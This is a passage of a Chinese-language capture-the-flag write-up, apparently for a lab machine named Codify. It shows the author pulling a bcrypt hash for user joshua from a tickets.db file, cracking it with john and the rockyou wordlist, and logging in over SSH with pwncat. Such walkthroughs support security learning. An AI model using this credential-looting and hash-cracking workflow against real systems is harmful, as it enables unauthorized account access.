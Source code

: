 ### 环境探测

发现一个数据库文件 `/var/www/contact/tickets.db`

下载到本地，对数据库信息进行读取

| id  | username |                           password                           |
| :-: | :------: | :----------------------------------------------------------: |
|  3  |  joshua  | $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2 |

对哈希数据进行爆破

```bash
┌──(randark ㉿ kali)-[~]
└─$ hashid hash.txt
--File 'hash.txt'--
Analyzing '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
--End of file 'hash.txt'--

┌──(randark ㉿ kali)-[~]
└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
......
```

得到凭据

```plaintext
joshua:spongebob1
```

## User - joshua

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs joshua@10.10.11.239
[10:52:20] Welcome to pwncat 🐈!
Password: **********
[10:52:35] 10.10.11.239:22: registered new host w/ db
(local) pwncat$ back
(remote) joshua@codify:/home/joshua$ whoami
joshua
```

### flag - user
